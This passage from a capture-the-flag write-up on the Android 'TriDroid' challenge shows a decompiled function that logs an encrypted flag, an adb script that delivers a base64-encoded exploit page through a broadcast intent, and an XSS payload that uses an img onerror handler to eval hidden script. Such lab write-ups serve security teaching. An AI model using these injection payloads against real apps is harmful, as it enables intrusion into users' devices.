```java
    }
}
```

#### showFlag
This function writes the `AES/CBC/PKCS5PADDING` encrypted flag in the runtime logs.

```java
public void showFlag() {
    try {
        Cipher instance = Cipher.getInstance("AES/CBC/PKCS5PADDING");
        instance.init(1, this.secretKey, new IvParameterSpec(new byte[16]));
        Log.d("TriDroid", "Flag: " + new String(Base64.getEncoder().encode(instance.doFinal(this.flag.getBytes(StandardCharsets.UTF_8))), StandardCharsets.UTF_8));
    } catch (Exception e) {
        Log.e("TriDroid", "Showing flag has failed ...", e);
    }
}
```

The key used for the encryption is the one generated by `generateSecretKey` described earlier.

### Setting up the environment

We have built an AVD identical to the remote one and used the following script to launch our exploit and get the logs :

```bash
#!/bin/bash
adb shell am start -W -n com.google.ctf.pwn.tridroid/.MainActivity
# set a fake flag for local testing
adb shell am broadcast -a com.google.ctf.pwn.tridroid.SET_FLAG -e data Q1RGe1hZWn0K
adb shell am broadcast -a com.google.ctf.pwn.tridroid.SET_NAME -e data $(cat exploit.html | base64 | tr -d '\r\n')
# add chromium logs to show console.log() output
adb logcat -d -s chromium
adb logcat -d -s TriDroid
# clear the logs
adb logcat -c
```

We will write our exploit in a separate file called `exploit.html`.

After attempting to trigger an XSS, we realized it is not possible to execute javascript code directly. We can however execute code by abusing the `onerror` handler of an `img` tag :

```html
<span id="exp">
    // javascript code
</span>
<img src="a" onerror="eval(document.getElementById('exp').innerHTML);" />
```

In the rest of this write-up we will only focus on the javascript code of the exploit, but remember that all the code you will see has to be defined in the `span` tag shown above.

